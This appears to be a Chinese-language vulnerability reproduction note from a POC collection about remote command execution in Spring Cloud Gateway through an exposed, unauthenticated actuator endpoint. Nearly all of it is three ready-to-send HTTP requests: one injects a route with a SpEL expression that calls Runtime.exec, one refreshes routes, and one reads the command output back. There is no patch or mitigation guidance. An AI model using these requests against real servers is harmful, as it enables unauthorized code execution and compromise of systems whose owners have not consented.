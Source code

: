 # Spring boot gateway存在命令执行漏洞

# 一、漏洞描述
Spring boot gateway存在命令执行漏洞

# 二、影响版本
Spring boot actuator未授权

# 三、资产测绘
```plain
/actuator/gateway/  接口存在
```

![1730259600146-25661149-dd5e-4032-9a0c-1c1c822d05be.png](./img/N0O-b9s0Otwvz0JD/1730259600146-25661149-dd5e-4032-9a0c-1c1c822d05be-729423.png)

# 三、漏洞复现
1. <font style="color:rgba(0, 0, 0, 0.9);">构造poc1创建hacker文件：</font>

```plain
POST /actuator/gateway/routes/jeecg-demo HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 333

{
  "id": "/jeecg-demo",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

![1730259826668-97743867-3d03-439c-9fd3-431b8ae57efd.png](./img/N0O-b9s0Otwvz0JD/1730259826668-97743867-3d03-439c-9fd3-431b8ae57efd-354366.png)

2、刷新路由

```plain
POST /actuator/gateway/refresh HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: __51uvsct__JuHMLCp1r3cB6ggB=1; __51vcke__JuHMLCp1r3cB6ggB=8bfe73d5-e527-5232-9cbe-1f2983c556d9; __51vuft__JuHMLCp1r3cB6ggB=1681223932313
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

![1730259859862-7d54ce26-aedd-4fe3-be7f-158cb5062a3e.png](./img/N0O-b9s0Otwvz0JD/1730259859862-7d54ce26-aedd-4fe3-be7f-158cb5062a3e-429367.png)

3、查看回显

```plain
GET /actuator/gateway/routes/jeecg-demo HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![1730259885785-61015288-0875-478c-b1c5-3b7b5f2c405b.png](./img/N0O-b9s0Otwvz0JD/1730259885785-61015288-0875-478c-b1c5-3b7b5f2c405b-981370.png)



> 更新: 2024-11-27 10:04:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gl2g116gzest4e6t>